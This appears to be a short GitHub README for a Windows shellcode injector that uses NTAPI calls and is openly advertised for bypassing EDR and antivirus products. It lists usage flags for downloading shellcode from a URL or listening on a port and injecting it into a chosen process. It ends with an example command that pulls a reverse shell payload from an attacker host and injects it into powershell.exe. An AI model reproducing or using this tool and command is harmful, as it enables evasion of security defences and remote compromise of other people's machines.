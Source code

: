 # Windows NTAPI shellcode injector
Inject shellcode from memory to process using Windows NTAPI for bypassing EDRs and Antiviruses
- Download shellcode from URL
- Listen and wait for shellcode

## Usage

```shell
Usage:
        Injector.exe -u <URL>
        Injector.exe -p <PID/Process Name> -u <URL>
        Injector.exe -p <PID/Process Name> -l <LISTEN_PORT>
        Injector.exe -h
Options:
        -h       Show this menu.
        -u       URL to donwload shellcode from (Not listen mode).
        -p       PID/Process name to be injected (Optional).
        -l       Listen mode port (Not download mode).
```

compile using gcc/g++ or visual studio and run for example:

```shell
injector.exe -u http://attacker.com/reverse_shell.bin -p powershell.exe
```

